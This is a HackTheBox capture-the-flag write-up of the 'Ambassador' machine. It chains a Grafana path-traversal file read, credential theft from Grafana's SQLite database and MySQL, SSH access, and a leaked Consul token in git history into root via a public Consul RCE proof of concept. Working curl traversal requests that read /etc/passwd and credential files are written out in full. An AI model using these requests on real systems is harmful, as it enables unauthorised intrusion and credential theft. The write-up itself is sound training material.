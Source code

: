 ```yaml
---
title: Ambassador writeup
date: 2023-08-16 15:00:00 +0200
categories: [Writeup, HackTheBox]
tags: ["medium-box"]     # TAG names should always be lowercase
img_path: /assets/img/boxes/ambassador/
image: # Thumbnail 
  src: Ambassador.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


## Summary
This box focuses on primarily on enumeration, as well as finding publically available exploits. First, a publicly known exploit in Grafana to achieve arbitrary file read. This must then be leveraged into obtaining the Grafana sqlite database, which in turn contains credentials for a publicly available mysql service. It is then possible to find ssh credentials for a low privileged user on the box via the mysql service. Finally, by enumerating a git repository it is possible to locate a token for a consul application. This, combined with a public exploit for consul can then be used to escalate privileges. 

## Foothold
As usual, let's start out by doing an nmap scan.
```console
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-04 00:42 CET
Nmap scan report for 10.129.228.56
Host is up (0.021s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
3000/tcp open  ppp?
3306/tcp open  mysql   MySQL 8.0.30-0ubuntu0.20.04.2
```
Interestingly, the box has port 3306 open. As such, let's keep an eye out for any potential database credentials. 

The host is also hosting services on port 22, 80 and 3000. Visiting the site on port 80, we learn there is a user named `developer` with ssh access. 
![](80.png)

Port 3000 is hosting a Grafana instance, which prompts us to login when trying to access it. 
![](3000.png)
Searching for vulnerabilities in Grafana reveals the following [exploit](https://www.exploit-db.com/exploits/50581), which should give us arbitrary file read.  Using the below command, it's possible to enumerate the files on the remote server:
```console
curl --path-as-is  "http://10.129.228.56:3000/public/plugins/alertlist/../../../../../../../../etc/passwd"
root:x:0:0:root:/root:/bin/bash
---SNIP---
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false
```
As noted previously, the developer account is indeed present on the box. 

One can use this vulnerability, paired with [this](https://infosecwriteups.com/from-shodan-dork-to-grafana-local-file-inclusion-e77dc4cfc264) article to find the password for the Grafana admin user:
```console
bitis@Workstation ~/h/m/ambassador> curl --path-as-is  "http://10.129.228.56:3000/public/plugins/alertlist/../../../../../../../../../../../../../etc/grafana/grafana.ini" | grep password
# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
```
Although this is just the default password that we could have probably found via a google search. In any case it works and we can log in as admin on the Grafana service. We can also use the exploit to download the Grafana database:

```
bitis@Workstation ~/h/m/ambassador [23]> curl --path-as-is  "http://10.129.228.56:3000/public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db" --output grafana.db
```
Looking through the database we can tell that the only Grafana user that exists is the admin user.
```console
sqlite> .tables
alert                       login_attempt
alert_configuration         migration_log
alert_instance              ngalert_configuration
alert_notification          org
alert_notification_state    org_user
alert_rule                  playlist
alert_rule_tag              playlist_item
alert_rule_version          plugin_setting
annotation                  preferences
annotation_tag              quota
api_key                     server_lock
cache_data                  session
dashboard                   short_url
dashboard_acl               star
dashboard_provisioning      tag
dashboard_snapshot          team
dashboard_tag               team_member
dashboard_version           temp_user
data_source                 test_data
kv_store                    user
library_element             user_auth
library_element_connection  user_auth_token
sqlite> select * from user;
1|0|admin|admin@localhost||dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab069|0X27trve2u|f960YdtaMF||1|1|0||2022-03-13 20:26:45|2022-09-01 22:39:38|0|2023-08-16 14:36:37|0
```

However, the database also contains credentials for the `grafana `mysql user: `grafana:dontStandSoCloseToMe63221!` 
```console
sqlite> select * from data_source;
2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2023-08-16 14:18:10|0|{}|1|uKewFgM4z
sqlite>
```

By using these credentials to access the mysql service identified on the box earlier, it's possible to get the password for the `developer` user in the "whackywidget" database:
```
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0,038 sec)

MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0,027 sec)

MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0,027 sec)

MySQL [whackywidget]>
```
The password is base64 encoded, and decodes to `anEnglishManInNewYork027468`. We can then login to the server via ssh.

## Privilege escalation
As part of our standard linux enumeration we run `pspy64`, and get the following output:

```console
2022/12/04 01:24:07 CMD: UID=0    PID=1033   | /usr/sbin/cron -f
2022/12/04 01:24:07 CMD: UID=0    PID=103    |
2022/12/04 01:24:07 CMD: UID=0    PID=1027   | /usr/bin/consul agent -config-dir=/etc/consul.d/config.d -config-file=/etc/consul.d/consul.hcl
2022/12/04 01:24:07 CMD: UID=0    PID=102    |
2022/12/04 01:24:07 CMD: UID=0    PID=101    |
2022/12/04 01:24:07 CMD: UID=0    PID=100    |
2022/12/04 01:24:07 CMD: UID=0    PID=10     |
2022/12/04 01:24:07 CMD: UID=0    PID=1      | /sbin/init maybe-ubiquity
2022/12/04 01:25:01 CMD: UID=0    PID=2291   | /usr/sbin/CRON -f
2022/12/04 01:25:01 CMD: UID=0    PID=2293   | /bin/bash /root/cleanup.sh
2022/12/04 01:25:01 CMD: UID=0    PID=2292   | /bin/sh -c /root/cleanup.sh
2022/12/04 01:25:01 CMD: UID=0    PID=2294   | /bin/bash /root/cleanup.sh
```
It seems that the root user is running a program named consul via a cronjob. We find the below [PoC](https://github.com/owalid/consul-rce) for us to achieve command execution via consul. However it requires a consul token to work. Luckily, if we look at the `/opt` directory it contains `/my-app`.
This directory contains a git repository.
```console
developer@ambassador:/opt/my-app$ ls -al
total 24
drwxrwxr-x 5 root root 4096 Mar 13  2022 .
drwxr-xr-x 4 root root 4096 Sep  1  2022 ..
drwxrwxr-x 4 root root 4096 Mar 13  2022 env
drwxrwxr-x 8 root root 4096 Mar 14  2022 .git
-rw-rw-r-- 1 root root 1838 Mar 13  2022 .gitignore
drwxrwxr-x 3 root root 4096 Mar 13  2022 whackywidget
developer@ambassador:/opt/my-app$ git log
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

commit c982db8eff6f10f8f3a7d802f79f2705e7a21b55
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:44:45 2022 +0000

    config script

commit 8dce6570187fd1dcfb127f51f147cd1ca8dc01c6
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 22:47:01 2022 +0000

    created project with django CLI

commit 4b8597b167b2fbf8ec35f992224e612bf28d9e51
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 22:44:11 2022 +0000

    .gitignore
```

If we take a look at the differences between some of the commits, we can find the consul token:
```
developer@ambassador:/opt/my-app$ git diff 33a53 c982db
diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index fc51ec0..35c08f6 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
+# Export MYSQL_PASSWORD before running

-consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
```

We can then get a reverse shell by using the PoC and setting up a listener on our own server.